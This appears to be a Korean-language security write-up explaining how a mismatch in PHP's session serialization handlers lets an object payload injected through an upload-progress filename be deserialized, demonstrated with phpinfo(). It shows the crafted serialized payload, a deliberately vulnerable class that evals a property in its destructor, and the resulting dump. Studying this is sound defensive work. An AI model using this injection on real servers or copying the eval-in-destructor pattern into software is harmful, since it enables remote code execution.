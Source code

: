 * Local Value, Master Value 둘다 `php_serialize`일 때

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568682633;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}";s:8:"tmp_name";s:14:"/tmp/phpz5NId3";s:5:"error";i:0;s:4:"done";b:1;s:10:"start_time";i:1568682633;s:15:"bytes_processed";i:5;}}}}
```

우선 위 세션 데이터 모두 `session_start()`를 해도 `phpinfo()` 실행은 안 된다.
다만 `php_serialize`일 때 직렬화된 값에서 `ini_set()`로 **session.serialize_handler**을 `php`로 변경해주고 `session_start()`를 하면 정상적으로 `phpinfo()`가 실행되면서 세션 데이터는 아래로 바뀐다.

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568682633;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}
```

```php
<?php
ini_set('session.serialize_handler', 'php');

class A {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}

session_start();
```

이유는 `php` 옵션은 `|` 파이프 문자로 세션 명과 세션 데이터를 구분하고 (`a|i:1234;`)
`php_serialize` 옵션은 세션 명과 세션 데이터를 `array`로 구분한다. (`a:1:{s:1:"a";i:1234;}`)

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568683023;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}
```

위와 같이 `php_serialize` 방식으로 직렬화된 세션 데이터를 `php` 방식으로 역직렬화한다면

```
array(1) {
  ["a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568683023;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:""]=>
  object(__PHP_Incomplete_Class)#1 (2) {
    ["__PHP_Incomplete_Class_Name"]=>
    string(1) "A"
    ["cmd"]=>
    string(10) "phpinfo();"
  }
}
```
